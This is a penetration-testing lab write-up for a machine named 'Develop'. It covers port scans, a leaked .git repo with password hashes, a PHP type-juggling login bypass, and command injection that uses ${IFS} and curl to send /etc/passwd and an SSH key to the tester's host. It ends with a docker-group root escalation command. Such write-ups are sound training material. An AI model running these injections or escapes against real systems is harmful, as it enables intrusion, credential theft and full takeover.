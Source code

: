 # Develop

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.135
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:38 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan on the HTTP ports as well:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.135      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:40 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Jekyll v4.1.1
|_http-title: Develop Solutions
| http-git: 
|   192.168.160.135:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added fix to do 
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin Panel
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

So there's a `.git` repository which we can download first.&#x20;

### Web + Git Enumeration

Port 80 hosts a corporate website:

<figure><img src="../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

If we click 'Get in touch', we are redirected to `develop.site/getintouch.php`. We can first add that to our `/etc/hosts` file and then enumerate further.&#x20;

The page reveals a simple Contact Form:

<figure><img src="../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Nothing much there. I ran a `gobuster` scan on the website and also downloaded the `.git` repository. While the `gobuster` scan ran, I enumerated the logs of the repository. Here's the interesting output:

```
$ git log -p -5
<TRUNCATED>
diff --git a/README.md b/README.md
index 4e81ff9..ef97745 100644
--- a/README.md
+++ b/README.md
@@ -1,6 +1,8 @@
 DONE:
 - Added staff vhost
 - Removed juicy files from git repo
-
+- Implemented blacklist & whitelist filters to prevent remote code execution reported by the last penetration test performed on our platform
+ 
 TODO:
-- Change weak passowrds
+- Change weak password
+- Remove commands from the whitelist like "cut" which are not needed anymore

...

diff --git a/init.sql b/init.sql
deleted file mode 100644
index e27be17..0000000
--- a/init.sql
+++ /dev/null
@@ -1,16 +0,0 @@
-DROP SCHEMA IF EXISTS app;
-CREATE SCHEMA app;
-USE app;
-
-CREATE TABLE staff(
-    id INT NOT NULL AUTO_INCREMENT,
-    username VARCHAR(20),
-    email VARCHAR(40),
-    password VARCHAR(255),
-    PRIMARY KEY(id)
-);
-
-# Inserting staff
-INSERT INTO staff(username, email, password) VALUES("franz", "franz@develop.info", "2df3f8123cd4cf019e215a37a19d0972");
-INSERT INTO staff(username, email, password) VALUES("alex", "alex@develop.info", "2af05664fdd33119293ce07da4509139");
-INSERT INTO staff(username, email, password) VALUES("lu191", "lu191@develop.info", "0e987654321098765432109876543210");
diff --git a/login.php b/login.php
deleted file mode 100644
index 28dd8b2..0000000
--- a/login.php
+++ /dev/null
@@ -1,101 +0,0 @@
-<?php
-session_start();
-require_once('database.php');
-
-if (isset($_POST['login'])) {
-  $username = $_POST['inputUsername'] ?? '';
-  $password = $_POST['inputPassword'] ?? '';
-  
-  if (empty($username) || empty($password)) {
-      $msg = 'Inserisci username e password %s';
-  } else {
-      $query = "
-          SELECT username, password, email
-          FROM staff
-          WHERE username = :username
-      ";
-      
-      $check = $pdo->prepare($query);
-      $check->bindParam(':username', $username, PDO::PARAM_STR);
-      $check->execute();
-      
-      $user = $check->fetch(PDO::FETCH_ASSOC);
-      
-      if (!$user || (md5($password) != $user['password'])) {
-          $msg = 'Credenziali utente errate %s';
-      } else {
-          session_regenerate_id();
-          $_SESSION['session_id'] = session_id();
-          $_SESSION['username'] = $user['username'];
-          $_SESSION['email'] = $user['email'];
-          
-          header('Location: ./dashboard/dashboard.php');
-          exit;
-      }
-  }
-}
-?>
```

Firstly, we have some mention of a blacklist and whitelist preventing RCE. Next, we have some hashes and users, of which the hashes don't crack.&#x20;

Lastly, we have `login.php` form, which uses the username concatenated with the MD5 of the password. This authentication mechanism is vulnerable to PHP type juggling since `===` is not used, hence magic hashes can be used to bypass the login.&#x20;

### Magic Hashes --> LFI SSH

The `.git` repository seems to be for the service running on port 8080:

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

We can login with `lu191:240610708`, abusing the type juggling here and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

The Resources tab of the dashboard shows potential for RCE:

<figure><img src="../../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>

So we know that this is probably still vulnerable to RCE, and it tells us when we are blocked.&#x20;

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

I tested different commands, and found that `curl` isn't blocked:

<figure><img src="../../../.gitbook/assets/image (116) (5).png" alt=""><figcaption></figcaption></figure>

Commands like `bash` and `sh` are blocked, and so are 'space' characters, so it will be difficult to get a reverse shell through `curl`. However, we can use this to read the files on the system by sending POST requests to our listening port 80.&#x20;

To overcome the space character block, we can use `${IFS}`. Using this, we can send POST requests with file contents using the `-F` flag:

{% code overflow="wrap" %}
```
127.0.0.1;curl${IFS}-X${IFS}POST${IFS}-F${IFS}"file=@/etc/passwd"${IFS}http://192.168.45.191
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (9).png" alt=""><figcaption></figcaption></figure>

Using this method, I found that the user was `franz`. We can then attempt to read their private SSH key:

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in:

<figure><img src="../../../.gitbook/assets/image (4) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker Group

As seen above, the user is part of the `docker` group, meaning that we can easily escalate privileges. Firstly, find the images present:

```
$ docker images                                                                                        
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE                                               
mysql        8.0.22    d4c3cafb11d5   2 years ago   545MB
```

&#x20;Just run this command from Hacktricks:

{% code overflow="wrap" %}
```
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host d4c3cafb11d5 chroot /host/ bash
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>
